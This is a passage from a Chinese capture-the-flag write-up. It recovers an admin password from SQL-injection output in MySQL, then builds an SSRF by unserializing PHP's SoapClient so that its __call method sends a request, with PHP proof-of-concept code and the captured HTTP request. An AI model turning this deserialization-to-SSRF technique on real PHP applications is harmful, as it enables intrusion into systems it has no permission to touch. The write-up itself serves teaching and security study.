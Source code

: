 然后再mysql中执行:

```
mysql> select unhex(conv("3617854171513108786",10,16));
+------------------------------------------+
| unhex(conv("3617854171513108786",10,16)) |
+------------------------------------------+
| 2533f492                                 |
+------------------------------------------+
```

求出前八位，然后依次类推求出后面的24位，最后解密的得到管理员的账号密码为：

```
admin:nu1ladmin
```

### 0x3 巧妙的构造SSRF-神来之笔 

拿到管理员账号密码之后，发现有ip限制，不能登录。然后题目放出提示说要SSRF。

代码就这么点，哪有SSRF啊？思路一致跑偏，以为是服务器上其他的软件漏洞导致的SSRF，无果。

再仔细想想，我们目前的漏洞其实有两个了：

1.  sql注入
2. 伪造任意的php内置类

然后受到[http://corb3nik.github.io/blog/insomnihack-teaser-2018/file-vault](http://corb3nik.github.io/blog/insomnihack-teaser-2018/file-vault)这个题目的影响，一直在想php的其他内置类是否有跟`Mood`类一样的方法，这显然是不现实的，没有可能那个内置类会有`getcountry`这样的方法。后来在跟队友的讨论中想到了php的`__call`的魔术方法 ：

![http://pic.wonderkun.cc/uploads/2018/03/3.png](http://pic.wonderkun.cc/uploads/2018/03/3.png)

也就是说，在调用一个类的不可访问的方法的时候，就会去调用`__call`方法。

所以我们只需要找到一个类，重载了__call方法，并且可以发请求的就可以了,然后找到了`soapClient`这个类：

示例如下：

```php
$client = new SoapClient(null, array('location' => "http://127.0.0.1:9999",
                                     'uri'      => "http://test-uri/"));
$se = serialize($client); 
var_dump($se);
$unse = unserialize($se);
$unse -> getcountry();
```

然后就会发现发送了下面的一个数据包：

```php
POST / HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: PHP-SOAP/5.5.9-1ubuntu4.11
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://test-uri/#getcountry"
Content-Length: 386

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://test-uri/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
```
